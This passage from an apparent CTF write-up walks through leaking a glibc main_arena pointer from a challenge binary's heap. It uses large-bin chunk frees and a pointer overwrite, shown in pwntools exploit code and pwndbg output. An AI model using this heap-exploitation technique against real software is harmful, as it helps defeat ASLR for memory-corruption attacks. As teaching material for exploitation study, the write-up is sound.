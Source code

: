 ## Leak the main arena pointer

Now, for the most important observation: as documented in 
[many write-ups for similar challenges](https://www.google.com/search?q=malloc+maximum+size+for+tcache+bin+0x408)
&#128578; **freeing a malloc'd chunk larger than 0x408 bytes will put it in the large bin** -
which will give us a pointer into the glibc data segment.

In our code, we can trigger that by first, creating a >0x408b message and then, changing
it to *even* longer message, which will trigger realloc logic in `chat_edit_menu()`.
Let's do that:

```python
# Alloc & free a >0x408b chunk, putting it in largebins
chat(2, 0x421*"B")
chat(2, 0x431*"C")
```

Restart the exploit. Result:

```
$ ./exploit.py
heap_base:  0x564f746f5000
(...)
```

Reattach GDB:

```
pwndbg> vis_heap_chunks
(...)
0x564f746f6910	0x0000000000000042	0x0000000000000021	B.......!.......
0x564f746f6920	0x0000564f746f71b0	0x0000000000000431	.qotOV..1.......
0x564f746f6930	0x0000000000000000	0x0000000000000431	........1.......	 <-- largebins[0x0][0]
0x564f746f6940	0x00007f57d921b0d0	0x00007f57d921b0d0	..!.W.....!.W...

pwndbg> bins
(...)
largebins
0x400-0x430: 0x564f746f6930 —▸ 0x7f57d921b0d0 (main_arena+1104) ◂— 0x564f746f6930 /* '0iotOV' */
```

To get this pointer in the exploit:

*   Calculate runtime address of the main arena pointer (`heap_base` plus offset that can be
    calculated from `vis_heap_chunks`
*   Put (_"rename"_) that in `main_user` pointer
*   Main arena address will be printed as username (up to first zero, that is).
    We can use our flexible `chat()` function to get that.

```python
# Leak main_arena pointer
main_arena_ptr = heap_base + 0x564f746f6940 - 0x564f746f5000
print("main_arena_ptr", hex(main_arena_ptr))
rename(pwn.p64(main_arena_ptr))
main_arena = pwn.u64(chat(1)+b'\0\0') - 1104
print("main_arena: ", hex(main_arena))
```
